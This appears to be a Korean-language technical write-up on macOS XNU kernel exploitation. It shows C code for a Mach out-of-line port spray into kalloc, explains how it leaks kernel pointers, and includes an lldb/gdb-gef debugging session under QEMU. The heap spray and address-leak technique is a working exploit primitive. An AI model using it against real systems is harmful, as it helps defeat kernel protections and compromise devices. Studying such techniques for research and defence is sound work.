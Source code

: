 ```c
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```

위 코드에서 주목할 점은, 메시지가 **전송(MACH_SEND_MSG)** 되지만 **수신되지는 않는다**는 점이다. 

이렇게 하면 메시지가 수신되거나, 메시지의 대상 포트가 파괴되기 전까지는 **포트 스프레이가 커널 공간에 남아 있게** 된다.

이 때문에 스프레이 함수는 **대상 포트(target port)** 를 반환한다. 커널 내부에서 복사가 완료된 후, 해당 포트를 곧바로 해제하고,  주소 유출을 시도한다.

커널 존(zone)의 포인터는 항상 `0xffffff8.........` 형태를 띈다.. 따라서 유출된 주소가 **8바이트 중 상위 1바이트가 0**일지라도(즉, **7바이트만 유출되더라도**), 해당 값이 커널 포인터라는 것을 알아볼 수 있다. 

예시로 아래 코드를 실행시켜서 디버깅해서 살펴보자.

```c
int main(int argc, char *argv[], char *envp[]) {

    mach_port_t p = fill_kalloc_with_port_pointer(mach_task_self(), 192/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
    printf("p: 0x%x\n", p);
    while(1) {};

    return 0;
}
```

우선은 저 192크기만큼 kalloc을 수행하는곳은
내부적으로 `ipc_kmsg_copyin_ool_ports_descriptor`  함수에서 호출된다.

QEMU로 디버깅하는데.
가상 호스트맥에서 lldb와 우분투에서 gdb-gef 동시에 혼용해서 디버깅할 필요가 있었다.

```nasm
Target 0: (kernel) stopped.
(lldb) p/x ipc_kmsg_copyin_ool_ports_descriptor
(mach_msg_descriptor_t *(*)(mach_msg_ool_ports_descriptor_t *, mach_msg_descriptor_t *, int, vm_map_t, ipc_space_t, ipc_object_t, ipc_kmsg_t, mach_msg_option_t *, mach_msg_return_t *)) $0 = 0xffffff801778df60 (kernel`ipc_kmsg_copyin_ool_ports_descriptor at ipc_kmsg.c:2810)

# ipc_kmsg_copyin_ool_ports_descriptor 함수 주소는 0xffffff801778df60 
# 내부적으로 kalloc이 ipc_kmsg_copyin_ool_ports_descriptor+0xe9에서 call 됨.
# 브포를 검
gef> b *0xffffff801778df60+0xe9
Breakpoint 2 at 0xffffff801778e049

# kalloc 할당 주소는 ipc_kmsg_copyin_ool_ports_descriptor+0xee, 즉 call 바로 직후에 브포를 걸어 확인
gef> b *0xffffff801778df60+0xee
Breakpoint 3 at 0xffffff801778e04e
```
